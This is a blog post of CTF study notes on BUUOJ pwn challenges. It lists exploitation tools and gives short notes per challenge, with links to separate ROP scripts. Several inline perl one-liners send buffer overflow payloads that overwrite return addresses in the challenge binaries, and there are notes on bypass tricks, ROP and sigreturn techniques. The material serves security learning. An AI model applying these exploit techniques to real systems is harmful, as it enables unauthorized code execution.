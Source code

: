 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn"
date:   2020-08-26 22:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
   3. LibcSearcher
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault??? _TODO_
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**post**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**ROP**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. Bypass: `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**ROP**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1. Peaceful exit ?
10. [**ROP**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5:
   2. [**Format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**ROP**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0
12. [**ROP**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1. Bypass: truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**ROP**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016
    1. Or [mprotect(.bss)](https://zhuanlan.zhihu.com/p/141065867), read and shellcode _TODO_
15. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop.py) [HarekazeCTF2019]baby_rop
16. [**ROP**]({{ site.url }}/assets/BJDCTF_2nd_one_gadget.py) [BJDCTF 2nd]one_gadget
    1. The [one_gadget](https://github.com/david942j/one_gadget) tool
17. [**ROP**]({{ site.url }}/assets/bjdctf_2020_babystack.py) bjdctf_2020_babystack
18. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_5.py) ciscn_2019_n_5
    1.  libc: `http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb`
19. [**ROP**]({{ site.url }}/assets/ciscn_2019_s_3.py) [ciscn_2019_s_3](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
    1.  Construct `"/bin/sh"` on stack
    2.  ROP via `__libc_csu_init()`
    3.  [x86_86 `syscall`](https://blog.packagecloud.io/eng/2016/04/05/the-definitive-guide-to-linux-system-calls)
    4.  Or, [`sigreturn()`](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)